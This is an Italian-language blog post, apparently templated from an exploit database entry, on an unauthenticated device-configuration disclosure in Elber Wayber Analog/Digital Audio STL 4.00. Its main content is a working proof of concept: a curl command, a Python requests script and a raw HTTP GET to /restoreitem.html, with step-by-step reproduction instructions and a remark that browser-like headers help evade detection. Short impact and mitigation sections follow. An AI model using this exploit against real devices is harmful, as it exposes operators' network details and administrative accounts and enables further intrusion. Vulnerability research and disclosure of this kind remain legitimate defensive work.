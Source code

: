 ```yaml
---
layout: post
title: '[webapps] Elber Wayber Analog/Digital Audio STL 4.00 - Device Config Disclosure' 
date: 2024-08-24
categories: [security, ransomware]
---
```


# [webapps] Elber Wayber Analog/Digital Audio STL 4.00 - Device Config Disclosure

## Introduzione
La vulnerabilità nel sistema Elber Wayber Analog/Digital Audio STL 4.00 consente a un attaccante di ottenere le configurazioni del dispositivo, potenzialmente esponendo dati sensibili. Questo articolo fornisce dettagli sulla vulnerabilità, esempi di payload e spiegazioni tecniche, oltre a informazioni su come è possibile mitigarla.

## Dettagli della Vulnerabilità
La vulnerabilità risiede nella mancata protezione delle configurazioni del dispositivo. Questo permette a un attaccante remoto di accedere a queste informazioni inviando una richiesta HTTP GET specifica. La vulnerabilità si manifesta nella versione 4.00 del software.

## Esempio di Payload Semplice

```
curl -i -s -k  -X $'GET' \
    -H $'Host: TARGET' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:90.0) Gecko/20100101 Firefox/90.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
    $'http://TARGET/restoreitem.html'
```

## Conversione in Python del Payload Semplice

```python
import requests
headers = {
    'Host': 'TARGET',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:90.0) Gecko/20100101 Firefox/90.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
}
response = requests.get('http://TARGET/restoreitem.html', headers=headers)
```

## Esempio di Payload Avanzato
Non fornito.

## Conversione in Python del Payload Avanzato
Non fornito.

## Spiegazione Tecnica
Il comando originale `curl` e l'equivalente script Python effettuano una richiesta HTTP GET alla risorsa "restoreitem.html" su un host target. La richiesta viene inviata con una serie di intestazioni HTTP che imitano un normale browser web, il che può aiutare a eludere alcune forme di rilevamento degli attacchi basate sulle caratteristiche delle richieste.

## Procedura per Riprodurre la Vulnerabilità
1. Sostituire 'TARGET' con l'indirizzo IP o il dominio dell'host bersaglio nel comando `curl` o nello script Python.
2. Eseguire il comando `curl` o lo script Python.
3. Esaminare la risposta per le informazioni di configurazione del dispositivo.

## Richiesta HTTP

```
GET /restoreitem.html HTTP/1.1
Host: TARGET
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

## Impatto della Vulnerabilità
La divulgazione delle configurazioni del dispositivo può esporre informazioni sensibili che possono essere sfruttate per effettuare ulteriori attacchi al sistema. Queste informazioni potrebbero includere dettagli sulla rete, account amministrativi e altre configurazioni del sistema.

## Patch e Mitigazioni
Al momento della pubblicazione, non è stata rilasciata alcuna patch o mitigazione. Le organizzazioni dovrebbero considerare l'implementazione di controlli di accesso e autenticazione per proteggere le pagine di configurazione del dispositivo.

## Conclusione
Questa vulnerabilità mette in evidenza l'importanza di proteggere le pagine di configurazione del sistema. Senza adeguate misure di sicurezza, un attaccante può facilmente ottenere accesso a queste informazioni e sfruttare ulteriormente il sistema. È fondamentale che le organizzazioni implementino controlli di accesso e autenticazione adeguati per proteggere queste risorse.

